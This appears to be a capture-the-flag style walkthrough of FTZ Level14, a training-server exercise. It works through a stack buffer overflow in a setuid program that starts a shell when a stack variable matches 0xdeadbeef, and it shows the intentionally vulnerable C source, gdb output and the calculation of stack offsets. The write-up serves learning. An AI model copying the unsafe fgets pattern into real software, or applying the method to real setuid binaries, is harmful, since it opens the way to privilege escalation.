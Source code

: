 # Level14

## This level's goal
- routine

***

```
[level14@ftz level14]$ ls -l
-rwsr-x---    1 level15  level14     13801 Dec 10  2002 attackme
-rw-r-----    1 root     level14       346 Dec 10  2002 hint

[level14@ftz level14]$ cat hint 

레벨14 이후로는 mainsource의 문제를 그대로 가져왔습니다.
(After level14, brought just main source's problem.)
버퍼 오버플로우, 포맷스트링을 학습하는데는 이 문제들이 최고의 효과를 가져다줍니다.
(those problems are the best effect for learning formoat strings and buffer overflow)

#include <stdio.h>
#include <unistd.h>

main()
{ 
  int crap;
  int check;
  char buf[20];
  fgets(buf,45,stdin);
  if (check==0xdeadbeef)
   {
     setreuid(3095,3095);
     system("/bin/sh");
   }
}

[level14@ftz level14]$ gdb -q attackme
(gdb) disass main
0x08048493 <main+3>:    sub    $0x38,%esp
```

0x38 means 56 bytes, and I need to get more information of memory size.

```
[level14@ftz tmp]$ cat distance.c

#include <stdio.h>
#include <unistd.h>

int main()
{
        int crap;
        int check;
        char buf[20];

        fgets(buf,45,stdin);
        if(check == 0xdeadbeef)
        {
                setreuid(3095,3095);
                system("/bin/sh");
        }
        printf("Input is : %s\n &buf : %p\n &check: %p\n &crap : %p\n", buf, buf, &check, &crap);
}

[level14@ftz tmp]$ gcc distance.c -o distance
[level14@ftz tmp]$ ./distance
AAAA
Input is : AAAA

&buf :   0xbffff8a0
&check:  0xbffff8c8
&crap :  0xbffff8cc
```

As above, I can understand the memory size.

Between buff and check : 0xbffff8c8 - 0xbffff8a0 = 0x00000028 (40 bytes)   
Between chek and crap  : 0xbffff8cc - 0xbffff8c8 = 0x00000004 (4bytes)

char buf(20 bytes) + dummy(20bytes) + check(4bytes) + crap(4bytes) + dummy(8bytes) + SFP(4bytes) + RET(4bytes)





